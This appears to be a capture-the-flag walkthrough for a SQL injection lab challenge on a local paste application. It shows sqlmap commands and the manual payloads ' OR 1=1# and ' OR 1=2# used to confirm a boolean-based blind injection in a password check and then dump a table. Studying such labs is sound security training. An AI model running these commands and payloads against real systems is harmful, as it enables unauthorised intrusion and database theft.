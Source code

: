 ## sql_6 - BOOLEAN BASED BLIND
- This time things are a little different, the UUID parameter is no longer vulnerable and if we try to mess with it we will get a helpful tip to blind inject on password protection.
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528356086663_Screenshot+2018-06-07+00.20.41.png)

- To get started on that we create a new paste with a password of ‘test’.
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528358491496_Screenshot+2018-06-07+00.51.48.png)

- I don’t know about you but ain’t nobody got time for manual blind injection, so we fire up SQLmap. Our initial basic attempt might look something like this:
  - We’re using the page url from the example, max level/risk and supplying dbms

`sqlmap -u http://<host>/page/18fe3270-6a24-11e8-abd0-420030282801?p=test --level=5 --risk=3 --dbms=mysql`

- Run it and tell it to continue with default options if any prompts appear to find this out,
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528356691952_Screenshot+2018-06-07+00.30.46.png)

- So good news, it’s injectable but bad news is sqlmap wants to try time-based. This will both slow down server when multiple people are doing this, and will also just take a really long time.
- Instead we can add `--technique=B` to tell sqlmap that it’s a boolean-based blind. We can know this from manually testing and inspecting the resulting page as shown below.
- Injected with TRUE query `'` `OR 1=1#`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528357965303_Screenshot+2018-06-07+00.52.16.png)

- Injected with FALSE query `'` `OR 1=2#`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528357997889_Screenshot+2018-06-07+00.52.26.png)

- SQLmap can struggle to find these differences so it may not detect it for you. Instead we can supply this discovery to improve our command line:
  - Adding `--``string` here tells sqlmap the query result was TRUE if it sees it.

`sqlmap -u http://127.0.0.1:4141/page/18fe3270-6a24-11e8-abd0-420030282801?p=test --level=5 --risk=3 --dbms=mysql --technique=B --string="Password Check Failed"`

- That change immediately yields the vulnerability we want it to exploit,
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528358115973_Screenshot+2018-06-07+00.54.45.png)

- Now we simply add `--dump -T trash` and sqlmap will do the rest of the hardwork for us.
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528358226828_Screenshot+2018-06-07+00.56.57.png)

NOTE: dbms will be sqlite if you are testing locally
NOTE: Make sure the page you put in the SQLmap command corresponds to a legitimate page on the website
